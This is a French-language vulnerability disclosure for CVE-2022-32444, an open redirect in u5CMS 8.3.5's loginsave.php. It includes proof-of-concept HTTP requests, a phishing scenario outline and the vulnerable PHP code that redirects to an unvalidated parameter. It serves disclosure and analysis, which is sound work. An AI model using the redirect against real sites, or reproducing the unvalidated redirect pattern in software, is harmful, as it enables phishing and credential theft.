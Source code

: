 ```yaml
---
description: 'Dernière mise à jour : 30/06/2022'
---
```


# CVE-2022-32444

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** Open Redirect ([CWE-601 - URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html))

La version 8.3.5 d'u5CMS est vulnérable à une faille de type Open Redirect via le paramètre d'URL `u` de la page `/loginsave.php`.

![](<../../.gitbook/assets/image (6).png>)

## Analyse de la vulnérabilité

La page `loginsave.php` est appelée suite à la soumission du formulaire d'authentification disponible à l'URL `/u5admin/` :&#x20;

![](<../../.gitbook/assets/image (2).png>)

La présence du paramètre `u` est visible directement dans la cible du formulaire et a pour valeur `u5admin` :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1).png>)

La requête est alors la suivante :&#x20;

```http
POST /u5cms-8.3.5/loginsave.php?u=u5admin HTTP/1.1
Host: 192.168.56.101
Content-Length: 42
Origin: http://192.168.56.101
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.56.101/u5cms-8.3.5/u5admin/
Cookie: i1_l=P; i2_l=d; pidvesa=a; aclan=fr
Connection: close

u=sh4rpforc0rc3%40gmail.com&p=password
```

La réponse est une 302 redirigeant l'utilisateur vers la page d'administration du CMS :

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:37:16 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Set-Cookie: u=sh4rpforc0rc3%40gmail.com; path=/; HttpOnly
Set-Cookie: p=2e6b6cdb26604865418a4814561a43d99ba549e3; path=/; HttpOnly
Location: u5admin?1655937436
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

Une fois la redirection effectuée, l'utilisateur se retrouve sur la page d'administration du CMS `/u5admin/` :

![](<../../.gitbook/assets/image (12) (1) (1).png>)

En général, une faille de type OpenRedirect sur une mire de connexion peut s'exploiter de la façon suivante :&#x20;

1. L'URL de la mire est semblable à `http://exemple.com/auth?redirect=openredirectvulnerability`
2. L'attaquant soumet cette URL, en adaptant la valeur désirée au paramètre `redirect`, à sa victime
3. La victime renseigne ses identifiants et se retrouve redirigée vers l'URL renseignée par l'attaquant

Dans le cadre de u5cms puisque l'exploitation de la vulnérabilité est accessible directement en GET en soumettant l'URL `http://u5cms-host/u5cms-8.3.5/loginsave.php?u=openredirectvulnerability`, qu'importe que la victime soit authentifiée ou non :&#x20;

```http
GET /u5cms-8.3.5/loginsave.php?u=https://google.fr HTTP/1.1
Host: 192.168.56.101
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:54:42 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Location: https://google.fr?1655938482
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

## Code vulnérable

Le fichier `loginsave.php` va récupérer la valeur du paramètre `u` et y effectuer un léger traitement :&#x20;

* récupérer la valeur dans `$u[0]` et des possibles fragments d'URL dans `$u[1]`
* rediriger l'utilisateur vers `index.php` si la valeur `$u[0]` est une chaine vide
* concaténer un timestamp dans l'URL grâce à la méthode `time()`
* rediriger l'utilisateur vers la valeur contenu dans `$u[0]`

{% code title="loginsave.php" %}
```php
$u=explode('#',$_GET['u']);
if(isset($u[1]))
  $u[1]='#'.$u[1];
else 
  $u[1]='';

if(trim($u[0])=='')
  $u[0]='index.php';
if(strpos($u[0],'?')>1)
  $u[0].='&'.time().$u[1];
else 
  $u[0].='?'.time().$u[1];

header("Location: ".$u[0]);
```
{% endcode %}

## Ressources

* [https://github.com/u5cms/u5cms/issues/50](https://github.com/u5cms/u5cms/issues/50)
